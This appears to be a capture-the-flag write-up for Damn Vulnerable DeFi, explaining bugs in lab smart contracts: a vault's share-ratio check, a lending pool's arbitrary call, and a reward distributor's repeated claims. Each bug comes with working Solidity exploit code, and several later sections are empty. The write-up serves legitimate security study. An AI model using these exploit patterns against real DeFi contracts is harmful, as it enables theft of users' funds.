




# Damn Vulnerable DeFi

## Overview

Version: 4.0.1

## Unstoppable

### Description

There's a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.
Starting with 10 DVT tokens in balance, show that it's possible to halt the vault. It must stop offering flash loans.

### How does the vault work?

- This vault inherited ERC4626. In ERC4626, the `deposit` function will call the `convertToShares` function to calculate the shares based on the assets deposited. At first, there are 0 tokens, the vault will create the amount of shares equal to the first deposit. So after the first deposit, the vault will maintain a 1:1 shares to assets ratio.

```solidity
function convertToShares(uint256 assets) public view virtual returns (uint256) {
    uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.

    return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
}
```

- In the `flashLoan` function, the developer enforces the following condition

```solidity
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

- I think the intention of the developer of this vault is to enforce the 1:1 ratio of shares to assets. This will work perfectly if every change to the vault assets is made through the `deposit` function. By sending assets directly to the vault, the vault will not mint any new shares to compensate for that, result in a mismatch of shares to assets ratio. This will make the vault become broken.

### Attack

- Send one token directly to the vault

```solidity
function test_unstoppable() public checkSolvedByPlayer {
    // Transfer into Vault
    require(token.transfer(address(vault), 1e18));  
}
```

- Challenge solved



## Truster

### Description

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

### How does it work?

The `flashLoan` function of this lending pool let the borrower to loan an amount of tokens and call an arbitrary function of another contract. After that, it check whether the balance stay the same. If so, it returns true. Otherwise, it reverts.

The pool assumes that if its balance remains unchanged after the call, everything is safe. However, this is not the case.

```solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
    external
    nonReentrant
    returns (bool)
{
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);

    target.functionCall(data);

    
    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```

### Attack

By exploiting that arbitrary function call, we call a function to make the lending pool approve the player to spend their tokens. After finishing the `flashLoan`, the player can then sent the tokens to the recovery account.

```solidity
contract Rescue {
    DamnValuableToken public token;
    TrusterLenderPool public pool;
    constructor (address _token, address _from, address _to, uint256 _amount) {
        //Set up
        token = DamnValuableToken(_token);
        pool = TrusterLenderPool(_from);
        

        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), _amount);

        require(pool.flashLoan(0, address(this), address(token), data));
        require(token.transferFrom(address(pool), address(_to), _amount));
        
    }
}
```

Challenge completed


## The Rewarder

### Description

A contract is distributing rewards of Damn Valuable Tokens and WETH.

To claim rewards, users must prove they're included in the chosen set of beneficiaries. Don't worry about gas though. The contract has been optimized and allows claiming multiple tokens in the same transaction.

Alice has claimed her rewards already. You can claim yours too! But you've realized there's a critical vulnerability in the contract.

Save as much funds as you can from the distributor. Transfer all recovered assets to the designated recovery account.

### How does it work?

This Smart Contract implements two structures, `Distribution` and `Claim`

`Distribution` stores information about

```solidity
struct Distribution {
    uint256 remaining;
    uint256 nextBatchNumber;
    mapping(uint256 batchNumber => bytes32 root) roots;
    mapping(address claimer => mapping(uint256 word => uint256 bits)) claims;
}
```

`Claim` stores information about a claim attempt

```solidity
struct Claim {
    uint256 batchNumber;
    uint256 amount;
    uint256 tokenIndex;
    bytes32[] proof;
}
```

To claim tokens, we have to create:
- An array containing the token we want to claim, in example [DVT, WETH] - `tokenToClaim`
- An array of `Claim`  - `claims`

The following example is a claim of user Alice


```solidity
// Set DVT and WETH as tokens to claim
IERC20[] memory tokensToClaim = new IERC20[](2);
tokensToClaim[0] = IERC20(address(dvt));
tokensToClaim[1] = IERC20(address(weth));

// Create Alice's claims
Claim[] memory claims = new Claim[](2);
// DVT claim
claims[0] = Claim({
    batchNumber: 0, // claim corresponds to first DVT batch
    amount: ALICE_DVT_CLAIM_AMOUNT,
    tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
    proof: merkle.getProof(dvtLeaves, 2) // Alice's address is at index 2
});

// WETH claim
claims[1] = Claim({
    batchNumber: 0, // claim corresponds to first WETH batch
    amount: ALICE_WETH_CLAIM_AMOUNT,
    tokenIndex: 1, // index of second token in `tokensToClaim` array
    proof: merkle.getProof(wethLeaves, 2) // Alice's address is at index 2
});
```

Each user will have their own arrays of batches, distinguished by their address
`Distribution`:
```solidity
mapping(address claimer => mapping(uint256 word => uint256 bits)) claims;
```

### Attack

The problem is this contract will only mark a position as claimed when we change the type of token we want to claim, result in a vulnerability that you can claim multiple times by sending claiming request for the same type of token consecutively.

We have to calculate the total times needed to drain a specific token. For each token, we have to loop the corresponding times needed to drain it then combine them into a `Claims` array

```solidity
function test_theRewarder() public checkSolvedByPlayer {
         //assertEq(address(player), address(0), "player Address");
         //Address: 0x44E97aF4418b7a17AABD8090bEA0A471a366305C
         //Index: 188
         uint256 player_DVT = 11524763827831882;
         uint256 player_WETH = 1171088749244340;
         // Calculate roots for DVT and WETH distributions
        bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
        bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

        // Set DVT and WETH as tokens to claim
        IERC20[] memory tokensToClaim = new IERC20[](2);
        tokensToClaim[0] = IERC20(address(dvt));
        tokensToClaim[1] = IERC20(address(weth));

        // Create Player's claims
        uint256 DVT_CLAIMS = TOTAL_DVT_DISTRIBUTION_AMOUNT / player_DVT;
        uint256 WETH_CLAIMS = TOTAL_WETH_DISTRIBUTION_AMOUNT / player_WETH;
        uint256 TOTAL_CLAIMS = DVT_CLAIMS + WETH_CLAIMS;
        Claim[] memory claims = new Claim[](TOTAL_CLAIMS);

        
        for(uint256 i = 0; i < DVT_CLAIMS; i++){
            // First, the DVT claim
            claims[i] = Claim({
            batchNumber: 0, // claim corresponds to first DVT batch
            amount: player_DVT,
            tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
            proof: merkle.getProof(dvtLeaves, 188) // Player's address is at index 188
            });
        }
        for(uint256 i = DVT_CLAIMS; i < TOTAL_CLAIMS; i++){
            // And then, the WETH claim
            claims[i] = Claim({
            batchNumber: 0, // claim corresponds to first WETH batch
            amount: player_WETH,
            tokenIndex: 1, // claim corresponds to second token in `tokensToClaim` array
            proof: merkle.getProof(wethLeaves, 188) // Player's address is at index 188
            });
        }
        distributor.claimRewards({
            inputClaims: claims,
            inputTokens: tokensToClaim
        });
        dvt.transfer(recovery, dvt.balanceOf(player));
        weth.transfer(recovery, weth.balanceOf(player));
    }
```

Challenge completed


### References

[Billy](https://hackmd.io/@0xbc000/Hye3kFs4p/https%3A%2F%2Fhackmd.io%2F%400xbc000%2FB1WLvxI3C?utm_source=preview-mode&utm_medium=rec)

## Compromised

a

## Puppet V2

## Backdoor

## Wallet Mining



## ABI Smuggling

## Curvy Puppet